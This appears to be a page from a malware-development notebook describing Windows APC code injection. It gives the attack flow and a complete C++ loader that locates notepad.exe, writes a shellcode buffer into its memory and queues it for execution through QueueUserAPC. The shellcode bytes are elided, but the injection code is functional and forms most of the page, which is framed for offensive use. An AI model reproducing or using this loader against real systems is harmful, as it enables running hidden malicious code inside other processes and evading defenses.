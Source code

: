 ```yaml
---
title: Asyn Procedure Call Injection (APC)
category: Maldev-Code Injection
order: 4
---
```


APC is a good technique for triggering the execution of our shellcode on a target process. It is a mechanism in Windows that allows a developer to queue a function to be executed asynchronously within the context of a target thread.

One important concept related to APCs is the alertable state of a thread. To become alertable, a thread has to call certain Win API functions that are specifically designed to switch a thread into this state. These are:

* `SleepEx()`
* `WaitForSingleObjectEx()`
* `WaitForMultipleObjectsEx()`
* `SignalObjectAndWait()`
* `MsgWaitForMultipleObjectsEx()`

To schedule an APC in a thread we can use the functions `QueueUserAPC` or `NtQueueApcThread`.

> **Note**: Not very stable technique and we need to wait to the trigger itself. Or trigger it with another binary.

The technique attack flow is the following:

1. `OpenProcess()`: Open a remote process handle.
2. `OpenThread()`: Open a remote thread handle.
3. `VirtualAllocEx`: Allocate memory buffer in the remote process to store shellcode.
4. `WriteProcessMemory()`: Write shellcode in remote memory buffer
5. `QueueUserAPC()`: Execute shellcode in remote proccess by scheduling APC object in the threads APC queue.
6. Wait till the thread enteres in alertable state which is not guaranteed.

# Code

Example of APC Injection:

```cpp
#include <Windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int FindThread(int pid){

	THREADENTRY32 thEntry;
	int tid = 0;
	thEntry.dwSize = sizeof(thEntry);
	HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
		
	while (Thread32Next(Snap, &thEntry)) {
		if (thEntry.th32OwnerProcessID == pid) 	{
			tid = thEntry.th32ThreadID;
			break;
		}
	}
	CloseHandle(Snap);
	return tid;
}

int FindProcess(const char * procname){
    int pid = 0;
    HANDLE hSnapshot;
    PROCESSENTRY32 lppe;

    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    if(INVALID_HANDLE_VALUE == hSnapshot){
        return -1;
    }
    lppe.dwSize = sizeof(PROCESSENTRY32);
    printf("Num of Processes... dwSize -> %d\n", lppe.dwSize);

    // Snapshot done!
    
    if(!Process32First(hSnapshot, &lppe)){
        CloseHandle(hSnapshot);
        return -1;
    }

    do{
        if(lstrcmpiA(procname, lppe.szExeFile)==0){
            printf("PID -> %d\t%s\n", lppe.th32ProcessID, lppe.szExeFile);
            pid = lppe.th32ProcessID;
            break;
        }
        
    }while(Process32Next(hSnapshot, &lppe));

    CloseHandle(hSnapshot);    
    return pid;
}

int main(int argc, char *argv[]) {
    int pid;
    int tid;
    HANDLE hThread;
    HANDLE hProc;
    void * pRemoteCode;
    char payload[] = {0xfc, 0x48,...};
    
    pid = FindProcess("notepad.exe");
    printf("[+] Notepad Found! pid -> %d \n", pid);
    tid = FindThread(pid);
    printf("[+] Thread Found! tid -> %d \n", tid);

    hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD) pid);
    getchar();
    hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, tid);
    getchar();
    if(hProc != NULL && hThread != NULL){
        pRemoteCode = VirtualAllocEx(hProc, NULL, sizeof(payload), MEM_COMMIT, PAGE_EXECUTE_READ);
        printf("pRemoteCode -> 0x%p\n", pRemoteCode);
        WriteProcessMemory(hProc, pRemoteCode, payload, sizeof(payload), (SIZE_T *) NULL);
        QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
        printf("Thread queued!\n");
        getchar();
    }
    CloseHandle(hProc);
    CloseHandle(hThread);
    return 0;
}
```
